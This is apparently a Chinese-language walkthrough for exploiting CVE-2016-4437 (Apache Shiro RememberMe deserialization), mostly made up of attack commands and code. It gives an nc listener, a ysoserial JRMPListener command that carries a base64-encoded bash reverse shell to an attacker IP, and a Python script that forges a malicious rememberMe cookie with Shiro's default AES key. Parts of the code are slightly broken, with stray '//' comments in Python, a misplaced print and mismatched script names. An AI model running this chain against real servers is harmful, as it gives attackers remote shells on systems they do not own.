 ## 简介

rememberMe后会产生一个cookie，cookie的产生为用户信息=>序列化=>AES加密=>base64编码=>添加到RememberMe Cookie字段。

由于很多开发者使用了默认的AES密钥，同时又存在了利用链，因此可以构造出一个可以被反序列化的cookie。

## 漏洞利用

### 第一种

直接用shiroexploit工具，检测出来后直接使用工具。

### 第二种

1、利用ysoserial根据特定的利用链创建出payload，然后利用shiro-cookie.py脚本将这个payload序列化-加密-编码后输出。

2、根据利用链创建出payload，payload中要在远程执行的命令需要进行编码（java.runtime编码）

```bash
nc -lvvp 1234  //反弹shell监听


#需要将反弹shell的命令进行java.runtime编码，编码地址为https://ares-x.com/tools/runtime-exec，""内为编码结果。
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections5 "bash -c {echo,CmJhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yMDAuMTMxLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}"   //攻击机搭建vps服务，存放反弹shell 的payload（准确说这是一个初始payload）

vim shiro-coolie.py   //写一个生成最终cookie的脚本，它从VPS那里获得原始payload进行编码加密等，其内容在最后，用python2跑（不知道python3可不可以）

python2 shiro.py ip:port //vps的ip和端口
```

3、将cookie写入登录时的抓包

这是抓包

![image-20240406154237977](CVE-2016-4437(Shiro550).assets/image-20240406154237977.png)

这是添加cookie后的



![image-20240406154303535](CVE-2016-4437(Shiro550).assets/image-20240406154303535.png)



#######################################

```python
#shiro-cookie.py内容
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")  //密钥key，可以用shiroexpoit或者shiroattack爆破出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())
```



